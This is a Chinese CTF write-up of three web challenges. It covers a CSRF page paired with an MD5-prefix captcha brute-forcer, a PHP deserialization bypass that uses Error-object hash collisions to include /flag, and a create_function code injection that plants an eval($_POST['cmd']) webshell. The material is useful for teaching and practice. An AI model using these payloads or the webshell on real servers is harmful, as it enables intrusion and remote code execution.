

解释一下第一个exp的那段js代码

**`history.pushState('', '', '/');`**：

- **`history` 对象**：这是浏览器提供的一个 API，允许你操控浏览器的历史记录。开发者可以使用它来添加、修改或删除历史记录条目。

- `pushState()` 方法

  ：这个方法用于将一个新的状态记录到浏览器的历史记录栈中。它有三个参数：

  - **第一个参数**（`''`）：表示状态对象，这里是一个空字符串，通常可以用来存储与状态相关的数据。
  - **第二个参数**（`''`）：表示标题，这里也是一个空字符串。大多数浏览器目前会忽略这个参数。
  - **第三个参数**（`'/'`）：表示新的 URL。这会改变浏览器地址栏中显示的 URL，但不会导致页面重新加载。在这个例子中，URL 被设置为根路径 `'/'`。

说白了这里将当前页面的URL设置为'/'但不会引起页面刷新。是一种掩盖我们攻击的时候提交恶意请求的实际URL

**`document.forms[0].submit();`**：

- **`document.forms`**：这是一个包含文档中所有表单的集合，`document.forms[0]` 获取第一个表单元素（在这个例子中是 `<form>` 标签）。
- **`.submit()` 方法**：这是一个 JavaScript 方法，用于程序matically 提交表单。调用这个方法时，浏览器会自动执行表单的提交操作，发送表单数据到指定的 `action` URL。

上传报告的地方可以上传，但是需要爆破验证码



## 贴个MD5截断加密的解密脚本

```python
#-*- coding: utf-8 -*-
#!/usr/bin/env/python
from multiprocessing.dummy import Pool as tp
import hashlib

knownMd5 = '6fb05'      #已知的md5明文
def md5(text):
    return hashlib.md5(str(text).encode('utf-8')).hexdigest()

def findCode(code):
    key = code.split(':')
    start = int(key[0])
    end = int(key[1])
    for code in range(start, end):
        if md5(code)[0:5] == knownMd5:
            print(code)
            break
list=[]
for i in range(3):    #这里的range(number)指爆破出多少结果停止
    list.append(str(10000000*i) + ':' + str(10000000*(i+1)))
pool = tp()    #使用多线程加快爆破速度
pool.map(findCode, list)
pool.close()
pool.join()
```



解密出来后在自己的web网站目录下放一个CSRF页面然后提交报告就可以了，我是放在我的远程服务器里头的

```
报告主题:BUG

验证码:爆破出来的

报告内容:http://服务器IP/1.html
```

其实本来是可以出来的，但是不知道为啥buuctf的这道题的环境可能有问题一直出不来，所以了解思路就可以了

# Greatphp

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

反序列化的题目，只有一个wakeup方法里面的eval函数可以使用，看php版本是7.2.25，先分析一下里面的if语句

1.需要让这两个成员变量不相等且md5值和sha1值相等

2.绕过正则匹配，匹配字符为`'<?php',左右括号,单引号,双引号`

本来以为是一个正常的php绕过，但是强碰撞去绕过md5验证的话很难传入我们的rce危险函数

在类里，无法用数组进行md5绕过，然后学到一个新姿势就是用原生类进行绕过

**这里我们可以使用原生类Error或者Exception，只不过 Exception 类适用于PHP 5，7和8，而 Error 只适用于 PHP 7和8。**

## Exception原生类

(PHP 5, PHP 7, PHP 8)

**Exception**是所有用户级异常的基类。

关于类的摘要


属性:

- message

  异常消息内容

- code

  异常代码

- file

  抛出异常的文件名

- line

  抛出异常在该文件中的行号

- previous

  之前抛出的异常

- string

  字符串形式的堆栈跟踪

- trace

  数组形式的堆栈跟踪

各种方法的解释


## Error原生类

(PHP 7, PHP 8)

**Error** 是所有PHP内部错误类的基类。

关于类的摘要


属性

- message

  错误消息内容

- code

  错误代码

- file

  抛出错误的文件名

- line

  抛出错误的行数

- previous

  之前抛出的异常

- string

  字符串形式的堆栈跟踪

- trace

  数组形式的堆栈跟踪

各种方法的解释



接下来我们拿Error类在本地做一下测试进行讲解，Exception类和这个大差不差

```php
<?php
$a=new Error("payload",1);
$b=new Error("payload",2);
echo $a;
echo $b;
if ($a!=$b){
	echo "不相等";
}
if (md5($a)===md5($b)){
	echo "md5相等";
}
if (sha1($a)===sha1($b)){
	echo "sha1相等";
}
?>
    /*
Error: payload in E:\vscode\profiles\1.php:2
Stack trace:
#0 {main}Error: payload in E:\vscode\profiles\1.php:3
Stack trace:
#0 {main}不相等
*/
```

这里可以看到是成功满足了不相等的条件的，

在 PHP 中，`$a` 和 `$b` 是两个不同的对象实例，尽管它们的构造函数接收的参数相同（即都为 `"payload"`），但它们的错误代码不同（`$a` 的错误代码为 `1`，而 `$b` 的错误代码为 `2`）。

在 PHP 中，当您比较两个对象时，使用 `!=` 或 `!==` 运算符会比较对象的实例

1. **引用比较**：如果两个对象引用的是同一个实例（即它们是同一个对象），那么它们是相等的。
2. **内容比较**：如果两个对象是不同的实例（即它们是不同的对象），即使它们的属性具有相同的值，PHP 仍然会认为它们是不相等的

因此，这两个对象被认为是不相等的。但是后面两个条件没满足，没满足md5的验证。这时候我们如果设置为同一行呢

```php
<?php
$a=new Error("payload",1);$b=new Error("payload",2);
echo $a."\n";
echo $b."\n";
if ($a!=$b){
	echo "不相等\n";
}
if (md5($a)===md5($b)){
	echo "md5相等\n";
}
if (sha1($a)===sha1($b)){
	echo "sha1相等\n";
}
?>
/*
Error: payload in E:\vscode\profiles\1.php:2
Stack trace:
#0 {main}
Error: payload in E:\vscode\profiles\1.php:2
Stack trace:
#0 {main}
不相等
md5相等
sha1相等
*/
```

这时候他们的md5和sha1是一样的,且他们的值是不一样的，因为md5和sha1比较的是

`Error: payload in E:\vscode\profiles\1.php:2
Stack trace:
#0 {main}`

由于它们在同一行中被执行，若在此行代码中发生错误，错误指向的行数仅会标记为当前的行，即行号 2，这时候他们的内容完全相等，所以他们的md5值也会相等

理清楚之后我们就开始打吧

因为eval执行带有完整标签的语句需要先闭合，就类似于将字符串当成代码写入到源码中。

由于题目用preg_match过滤了小括号无法调用函数，所以我们尝试直接`include "/flag"`将flag包含进来即可；由于过滤了引号，于是在这里进行取反，这样解码后就自动是**字符串**，无需再加双引号或单引号。

```php
<?php
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}
$payload="?><?=include~".urldecode("%d0%99%93%9e%98")."?><?";
$a=new Error($payload,1);$b=new Error($payload,2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo urlencode(serialize($c));
?>
```

# FighterFightsInvincibly

源码中有

```
<!-- $_REQUEST['fighter']($_REQUEST['fights'],$_REQUEST['invincibly']); -->
```

这个格式很像是**变量函数**的格式

- 在PHP中，如果一个变量名后跟括号，PHP会尝试将该变量的值作为函数名来调用。

```
函数名(形参1,形参2);
```

一开始传入?fighter=system&fights=whoami&invincibly=构造

```
system("whoami", "");
```

但是没看到执行

还有一个思路就是利用creat_function

## creat_function()函数

create_function()主要用来通过执行代码字符串创建动态函数

本函数已自 PHP 7.2.0 起被*废弃*，并自 PHP 8.0.0 起被*移除*。

基本格式

```
create_function(string $args, string $code): string
```

官方的例子

```php
<?php
$newfunc = create_function('$a,$b', 'return "ln($a) + ln($b) = " . log($a * $b);');
echo $newfunc(2, M_E) . "\n";
?>
//ln(2) + ln(2.718281828459) = 1.6931471805599
```

其实构造出来的函数是这样的

```php
function($a,$b){
    return "ln($a) + ln($b) = " . log($a * $b);
}
```

然后我们如何利用这个函数呢？在web目录下写一个1.php做测试

```php
<?php
highlight_file(__FILE__);
$id=$_GET['id'];
$str2=$id;
echo $str2;
$f1 = create_function('$a',$str2);
?>
```

此时如果我们传入

```php
$str2=echo "test";
```

那么构造出来的结果就是

```php
function($a){
    echo "test";
}
```



但是如果我们传入

```php
$str2 = echo "test";}phpinfo();/*
```

那么构造出来的结果就是

```php
function($a){
    echo "test";
	}
phpinfo();/*
}
```



说明是可以进行代码执行的，那我们回到题目中去构造

```
?fighter=create_function&fights=&invincibly=;}phpinfo();/*
```

页面上没有但是在源码中看到了内容



需要绕过disable_function，那我们写eval然后蚁剑连

```
?fighter=create_function&fights=&invincibly=;}eval($_POST['cmd']);/*
```

连上后绕过disable_function



但是这里好像flag少了
